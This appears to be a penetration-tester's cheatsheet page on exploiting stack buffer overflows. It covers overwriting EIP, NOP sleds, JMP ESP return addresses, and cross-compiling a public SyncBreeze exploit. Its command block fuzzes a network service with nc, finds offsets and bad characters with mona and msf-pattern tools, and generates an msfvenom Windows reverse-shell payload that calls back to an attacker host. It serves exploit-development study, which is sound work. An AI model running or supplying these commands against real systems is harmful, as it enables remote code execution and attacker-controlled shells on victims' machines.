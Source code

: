 # Buffer overflow

## Summarised steps

1\. Create a large buffer to trigger the overflow.

2\. Take control of EIP by overwriting a return address on the stack and  padding the large buffer with an appropriate offset.

3\. Include a chosen payload in the buffer prepended by optional NOP sleds.

4\. Choose a correct return address instruction such as JMP ESP (or different register) in order to redirect the execution flow into our payload.

## Fixing memory corruption exploits

```sh
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
# Run Windows executables on Linux
wine exploit.exe
```

{% hint style="danger" %}
Be careful with buffers, pointers... take into account that there migth be misalignments of 1 up to 4 bytes in order to work (sum or substract 1-2-3-4 bytes according to the specific case).
{% endhint %}

### Changing return address

As an alternative, we could obtain a return address directly from the target machine. If we have access to our target as an unprivileged user and want to run an exploit that will elevate our privileges, we can copy the DLLs that we are interested into our attack machine and use various tools such as disassemblers or even _msfpescan._

[https://www.offensive-security.com/metasploit-unleashed/exploit-targets/](https://www.offensive-security.com/metasploit-unleashed/exploit-targets/)

## Windows

[https://www.youtube.com/watch?v=L29nzSzWdGM](https://www.youtube.com/watch?v=L29nzSzWdGM)

{% hint style="danger" %}
If bof is .exe on Linux (using Wine most likely), try both Windows and Linux payloads on msfvenom, it might be Linux payload!!!
{% endhint %}

{% tabs %}
{% tab title="Cheatsheet" %}
{% code overflow="wrap" fullWidth="true" %}
```bash
python -c 'print "A" * 800 + "\x00"' | nc $box 1985
!mona config -set workingfolder c:\bof\%p
msf-pattern_create -l 2000
msf-pattern_offset -l 2000 -q 316A4130
!mona compare -f $.bin_file_path -a $ESP # we note the badchar, ESP w/o 0x
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.0 LPORT=80 EXITFUNC=thread -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c --smallest
```
{% endcode %}
{% endtab %}
